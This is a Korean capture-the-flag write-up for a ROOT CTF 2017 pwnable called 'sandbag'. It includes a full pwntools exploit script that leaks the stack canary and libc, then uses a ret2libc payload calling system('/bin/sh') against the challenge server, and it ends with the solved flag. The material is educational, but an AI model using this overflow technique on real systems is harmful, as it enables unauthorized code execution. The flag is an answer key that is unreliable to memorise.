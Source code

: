 # ROOT CTF 2017 1st
## Overview
Factorization

889

열심히 수련하여 샌드백을 터뜨리자!
nc 222.110.147.52 6975

Link

## Analyze

포너블 라업은 항상 귀찮은 것 같아요..

이 라업에서는 자세하게 분석하지 않고 매우 빠르게 넘어갑니다..

간단하게 정리해서..

1. 먼저 아브라카타브라 하는 곳으로 들어가야 합니다.
2. 카나리를 릭해줍니다.
3. 다시 아브라카타브라 하는 곳으로 들어가서 libc leak 를 합니다.
4. 립씨 릭 하는 동시에 다시 exploit 하기 위해 main 으로 돌아갑니다.
5. 다시 아브라카타브라 하는 곳으로 들어갑니다.
6. Let's pwn!!!

먼저, 제 경험에 의하면(??) 이 서버의 립씨는 `ubuntu-xenial-i386-libc6 (id libc6_2.23-0ubuntu9_i386)` 입니다.

(랄까 뭔가 립씨릭 안해도 사이트에서 립씨 다운이 됬던 것 같은ㄷ..)

![Black-memory](./Libc_leak.PNG)

먼저 아브라카타브라 하는 곳으로 들어가려면

![Enter_abraca](Enter_abra.PNG)

> v7 == 4 && (*a5 == 2985984 || *a1 == 10000000)

이런 조건을 만족하면 되는데,

![Enter_abra](Enter_abra2.PNG)

a2 부터 a6 까지 모든 메뉴 12번씩 해서

> 12 ** 5 == 2985984

를 만족시켜서 abraca 에 진입합니다.

그 후 카나리 릭을 하기 위해서 주소 차이를 구하면

![Canary](canary.PNG)

> 0x40 == 64

`64 + '\n'` 을 넣어서 릭을 하면 됩니다.

그리고 위에 적어둔 순서대로 pwn 하면 됩니다..!

## Solve
### Python
```python
from pwn import *

debug = False

### recv data and print if debug mode ###
def recv():
	global debug

	recv = p.recv()
	if debug:
		print(recv)
	return

### Make state to overflow-able ###
def entryAttack():
	for i in range(36):
		recv()
		p.sendline("1")
		recv()
		p.sendline(str(i/12+1))

		recv()
		p.sendline("2")
		recv()
		p.sendline(str(i/12+1))

	recv()
	p.sendline("3")

	recv()
	p.sendline("4")

### Enter attack state ###
def abraka():
	recv()
	p.sendline("2")

	recv()
	p.sendline("4")
	print("[*] enter abracadabra!")

### Canary leak ###
def leak_canary():
	recv()
	recv()

	p.sendline("A"*64)

	print(p.recv(66))
	canary = u32("\x00" + p.recv(3))
	return canary


p = remote("222.110.147.52", 6975)
# p = process("./sandbag")

e = ELF("./sandbag")

# ubuntu-xenial-i386-libc6 (id libc6_2.23-0ubuntu9_i386)
main = 0x08048D87

libc_puts = 0x5fca0

libc_start = 0x18637
libc_system = 0x0003ada0
libc_bin_sh = 0x15b9ab
libc_exit = 0x2e9d0

real_start = 0
real_system = 0
real_bin_sh = 0
real_exit = 0

entryAttack()

abraka()
canary = leak_canary()

print("[*] canary leak success! " + hex(canary))

abraka()

payload = ""

payload += "A"*64
payload += p32(canary)
payload += "A"*4

# For libc leak
payload += p32(e.plt["puts"])
payload += p32(main)
payload += p32(e.got["puts"])

p.sendline(payload)

recv()

p.sendline("6")

p.recvuntil("Good Bye~\n")

puts_got = u32(p.recv(4))
print("[*] leak puts_got : " + hex(puts_got))

real_start = puts_got - libc_puts

real_system = real_start + libc_system
real_bin_sh = real_start + libc_bin_sh
real_exit = real_start + libc_exit

### SECOND ATTACK ###

entryAttack()

abraka()
canary = leak_canary()

print("[*] second canary leak success! " + hex(canary))

abraka()

payload = ""

payload += "A"*64
payload += p32(canary)
payload += "A"*4

payload += p32(real_system)
payload += p32(real_exit)
payload += p32(real_bin_sh)

p.sendline(payload)
recv()

p.sendline("6")

p.recvuntil("Good Bye~\n")

p.interactive()
```

## Flag
![Solve](Solve.PNG)

`FLAG{dO_y0u_kNOw_F@ct0rIzAtion?}`